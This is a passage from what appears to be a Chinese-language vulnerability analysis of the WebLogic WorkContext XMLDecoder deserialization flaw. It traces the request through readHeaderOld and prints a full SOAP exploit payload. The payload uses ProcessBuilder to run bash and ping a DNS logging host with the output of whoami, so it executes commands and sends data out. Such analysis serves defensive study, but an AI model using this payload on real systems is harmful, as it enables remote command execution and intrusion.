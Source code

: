return super.processRequest(var1); 
``` `}` 
```

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

```
com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<java version="1.8.0_131" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope> 
```

![image](img/e86f38c6cba3504ac0a9b234c99956b7.png)

WorkContextTube.class

```
protected void readHeaderOld(Header var1) {
    try {
        XMLStreamReader var2 = var1.readHeader();
        var2.nextTag();
        var2.nextTag();
        XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
        ByteArrayOutputStream var4 = new ByteArrayOutputStream();
        XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
        var3.bridge(var2, var5);
        var5.close();
        WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
        this.receive(var6);
    } catch (XMLStreamException var7) {
        throw new WebServiceException(var7);
    } catch (IOException var8) {
        throw new WebServiceException(var8);
    }
} 
```
